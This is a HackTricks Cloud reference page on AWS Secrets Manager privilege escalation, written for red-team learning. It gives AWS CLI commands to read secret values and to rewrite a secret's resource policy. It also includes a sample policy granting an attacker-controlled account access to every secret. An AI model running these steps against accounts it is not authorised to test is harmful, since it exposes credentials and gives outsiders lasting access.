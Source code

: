 # AWS - Secrets Manager Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Secrets Manager

For more info about secrets manager check:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

An attacker with this permission can get the **saved value inside a secret** in AWS **Secretsmanager**.

```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```

**Potential Impact:** Access high sensitive data inside AWS secrets manager service.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

With the previous permissions it's possible to **give access to other principals/accounts (even external)** to access the **secret**. Note that in order to **read secrets encrypted** with a KMS key, the user also needs to have **access over the KMS key** (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).

```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```

policy.json:

```json
{
  "Version" : "2012-10-17",
  "Statement" : [ {
    "Effect" : "Allow",
    "Principal" : {
      "AWS" : "arn:aws:iam::<attackers_account>:root"
    },
    "Action" : "secretsmanager:GetSecretValue",
    "Resource" : "*"
  } ]
}
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

